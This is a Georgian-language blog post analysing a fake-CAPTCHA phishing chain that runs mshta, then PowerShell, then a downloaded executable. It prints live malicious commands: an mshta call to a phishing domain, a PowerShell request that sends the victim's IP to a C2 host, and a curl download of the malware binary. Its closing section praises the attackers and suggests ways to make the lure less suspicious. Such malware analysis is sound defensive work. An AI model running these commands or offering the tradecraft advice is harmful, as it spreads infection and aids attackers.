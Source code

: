 ```yaml
---
title: "ფიშინგი რობოტების წინააღმდეგ!"
date: 2024-12-20 18:10:00 +0400
categories: [CyberSecurity,Hacking]
tags: [Malware]
---
```


## რა მოხდა?

ერთ-ერთ საიტზე შევედი და უცებ ასეთი რამ გამოჩნდა:

![1.png](https://44b4c0.github.io/assets/img/posts/22/1.png)

მეც ამოვხსენი ეს "თავსატეხი", მაგრამ შემდეგ ასეთი რამ გამოჩნდა:

![2.png](https://44b4c0.github.io/assets/img/posts/22/2.png)

ვის სჯერა, რომ `DNS` სერვერი არ მუშაობს და `run`-ში რაღაც უცნაური უნდა ჩაწეროს?

## ანალიზის დასაწყისი

ყველაზე უცნაური აქ ისაა, რომ არაფრის დაკოპირება მოუთხოვია. შესაძლოა როდესაც "თავსატეხის" ამოხსნას დავაჭირე სწორედ მაშინ მოხდა ტექსტის `clipboard`-ში გადატანა. როდესაც `paste` ვცადე `notepad`-ში, ასეთი რამ გამოჩნდა:

```powershell
mshta https://microsoft-dns-reload-6y.pages.dev # "Microsoft Windows: DNS service Reload and Restart UP
```

`mshta` არის `Microsoft HTML Application` ჰოსტი, რომელიც ამ უცნაური ლინკიდან წამოღებულ `.hta` ფაილს გაუშვებს. ახლა ისღა დამრჩენია ეს ფაილი ვიშოვო და შემდეგ ვირტუალურ მანქანაში გავაკეთო მისი ანალიზი.

![3.png](https://44b4c0.github.io/assets/img/posts/22/3.png)

აქ კარგად ჩანს თუ რის გაკეთებას ცდილობს `HTML`-ში ჩაშენებული `VBA` სკრიპტი. მოკლედ რომ ვთქვა, გაჩნდება `powershell` პროცესი, რომელიც `base64`-ში დაენკოდებული `URL`-ს გაუგზავნის `HTTP` მოთხოვნას.

![4.png](https://44b4c0.github.io/assets/img/posts/22/4.png)

აქ უკვე `.exe` ფაილი გამოჩნდა. რა თქმა უნდა, ამ ეტაპზე წინა `.exe` ფაილის ანალიზი არ დამისრულებია, მაგრამ ამ ბლოგში ვეცდები ეს ფაილი დავშალო და შევამოწმო რას აკეთებს უფრო კონკრეტულად.

## Powershell-ის ანალიზი

მოკლედ, რაღაც ლინკიდან მოდის `.exe` ფაილი, რომელიც ინახება `response`-ში. ამის შემდეგ სკრიპტი ამოწმებს არსებობს თუ არა `MemoryExec`, რაც ნიშნავს იმას, რომ სკრიპტი ამოწმებს შეუძლია თუ არა კომპიუტერს მთლიანი `binary` ინფორმაციის მეხსიერებაში გადატანა და იქიდან გაშვება, ანუ ფაილის მყარ დისკზე არ შექმნა. ასეთ ფაილებს `Lolbin`-ები ეწოდებათ, ანუ `Live Off the Land Binaries`.

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

აქ `JSON` მონაცემები იგზავნება `POST` მეთოდით და ეს ჰედერებიდანაც კარგად ჩანს:

```
Content-Type: application/json
```

`JSON` მონაცემები კი `hxxps://ifconfig.me/ip`-დან წამოვა. ეს საიტი შესული მოთხოვნის ანალიზს აკეთებს და უკან გარკვეულ ფორმატში აბრუნებს. ამ სკრიპტის ავტორი კი მას `JSON`-ად გადააქცევს `ConvertTo-Json`-ის გამოყენებით.

ეს ყველაზე საინტერესოა. დიდი ალბათობით ამ დომენის უკან მთავარი `C2` სერვერი დგას, რომელსაც შეგვიძლია, რომ ჩავარტყათ. ვეცდები სხვა ქსელიდან ვცადო ეს ყველაფერი.

```
hxxps://polovoiinspektor.shop/protect/GodResponsibility.exe
```

როგორც ჩანს ფაილის სახელია `GodResponsibility`. არ ვიცი ასეთი არაკრეატიული სახელი რატომ ჰქვია, მაგრამ ჩემთვის სულ ერთია, მთავარია ჰოსტი ნაპოვნია.

`Run()` ფუნქცია კი, რომელიც `HTTP` სერვისიდან მიღებულ `data stream`-ს მეხსიერებაში ტვირთავს და შემდეგ უშვებს, პროცესის ოფციებს ასწორებს/აკონფიგურირებს. მაგალითად:

```c#
process.StartInfo.CreateNoWindow = true;
```

ეს ნიშნავს, რომ პროცესის `startup info`-ში(ეს ის სტარტაპი არ არის) ჩაიწერება ოფცია, რომელიც ამ პროცესის შექმნისას არ გააჩენს ფანჯრებს. ანუ, თუ მაგალითად ეს აპლიკაცია `Console Application` არის, ეს ნიშნავს იმას, რომ მას აუცილებლად დასჭირდება `conhost.exe` და მარტივად რომ ვთქვა `cmd.exe`-ს ფანჯარა. ეს ოფცია ამ ფანჯრის შექმნის პრევენციას მოახდენს.

```powershell
curl https://polovoiinspektor.shop/protect/GodResponsibility.exe --output GodResponsibility.exe
```

ამ ბრძანებით ვიწერ მავნე კოდს და `GodResponsibility.exe` ფაილში ვინახავ, `Desktop`-ზე.

## GodResponsibility.exe

ფუნქციების შემოწმებისას აქაც ჩანს ბევრი ისეთი ფუნქცია, რომელიც წინა მავნე კოდის განხილვისას აღმოვაჩინე.

![5.png](https://44b4c0.github.io/assets/img/posts/22/5.png)

ზოგი ტექსტი წინა `malware`-შიც აღმოვაჩინე, ასე, რომ ძალიან მაინტერესებს რა მოხდება ამ პროგრამას თუ გავუშვებ. სანამ ამას გავაკეთებ ერთხელ გადავხედავ `r2.exe`-თი და მერე ჩავაგდებ `xdbg`-ში.

![6.png](https://44b4c0.github.io/assets/img/posts/22/6.png)

ეს და წინა მავნე კოდი, `NativeApp_G4QLIQRa.exe` ძალიან ემთხვევიან ერთმანეთს. განსხვავება აქ ისაა, რომ წინა ვირუსი 50 მეგაბაიტზე მეტი იყო ზომაში, ხოლო ეს მხოლოდ 1.18 მეგაბაიტია.

სხვათაშორის, ეს ვირუსი 2024 წლის 17 სექტემბერსაა ხელმოწერილი `Notepad++`-ის მიერ. ყოველშემთხვევაში ასე წერია დეტალებში.

![GodPriority.ico](https://44b4c0.github.io/assets/img/posts/22/GodPriority.ico)

ეს აღმოვაჩინე. `.exe`-ს `icon` ყოფილა. დიდად ვერ ვხვდები ეს რას შეიძლება ნიშნავდეს, მაგრამ საკმაოდ საინტერესოა, როდესაც მავნე კოდში ასეთ უცნაურ რამეს პოულობს ვინმე.

ახლა შევეცდები `Wireshark` ჩავწერო ვირტუალურ მანქანაზე და შემდეგ ქსელს გავუთიშავ მას. აი როდესაც ამას ვიზამ `Wireshark`-ს ჩავრთავ და ვირუსს გავუშვებ. ვნახავ რის გაგზავნას შეეცდება და სად, ან საერთოდ თუ შეეცდება რამის გაგზავნას სადმე.

#### ყველაფერი აირია

სამწუხაროდ ყველაფერი აირია. ვირტუალური მანქანა გაითიშა და ის პროგრესი რაც მქონდა სულ დაიკარგა. ამასთან, ვირუსმა თავი წაიშალა. ამ ვირტუალური სისტემის ქსელთან დაკავშირება არ მსურს, რადგან შესაძლოა ვირუსი ჩემს ქსელში გავრცელდეს, ასე, რომ ამ ეტაპზე მას ასე დავტოვებ.

## Attack Chain-ის შეფასება

#### Stage 0

საბოლოოდ, ვფიქრობ, ამ გუნდმა კარგად იმუშავა და ნამდვილად იმსახურებენ დაფასებას. სოციალური ინჟინერიის ხარისხის ძალიან მომეწონა, როდესაც `Google Capcha` თავიდან ააწყვეს და შემდეგ `Run`-ში `Clipboard`-დან ბრძანების ჩაწერა შემოგვთავაზეს. **ასეთი რაღაცების კრიტიკოსი უნდა გავხდე**.

#### Stage 1

კარგი იყო `hxxps://microsoft-dns-reload-6y.pages.dev` ლინკიც, რომელიც ყველანაირად ვალიდურად გამოიყურება. ერთადერთი, რაც ამ ყველაფერს საეჭვოს ხდის არის `6y` და, ვფიქრობ, ეს უნდა მოშორდეს დომენს. ყოველშემთხვევაში მე მაგ ნაწილს არ გამოვიყენებდი სამიზნის დაბნევის დროს.

`VBA` სკრიპტის `HTML`-ში ინტეგრაცია და `WScript.Shell`-ის გაჩენა `CreateObject`-ით, ეს სტანდარტული სვლაა და იმდენად ბევრი ჰაკერი აკეთებს უკვე ამას, რომ აღარ მაოცებს. **სამაგიეროდ** მომეწონა მეორე დომენის სახელი, რომელიც `.shop`-ით ბოლოვდება და ეს, ჩემი აზრით, უფრო ვალიდურ იერსახეს მისცემს ამ კონკრეტულ დომენს.

#### Stage 2-3

`Powershell`-ს რაც ეხება კარგია, რომ დეველოპერს არ ავიწყდება მეხსიერებაში პირდაპირი ჩატვირთვის ფუნქციონალის შემოწმება მანამ, სანამ ის ამას გააკეთებს. **მაგრამ** არ მესმის ეს:

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

საქმე ისაა, რომ ინფიცირებისას რაც შეიძლება ნაკლებად ხმაურიანი უნდა იყოს მავნე კოდი, იმპლანტი თუ დროპერი. აქედან გამომდინარე ისმის კითხვა: `რატომ გახდა საჭირო კიდევ ორი მოთხოვნის განხორციელება?`. აქ რაცაა მოცემული, მაგის გაკეთება `.exe` ფაილიდანაც შეიძლებოდა, მოგვიანებით.

მოკლედ, რომ შევაჯამო, საკმაოდ საინტერესო შეტევის მეთოდია და ნამდვილად იმსახურებს ეს მეთოდი განვითარებას.
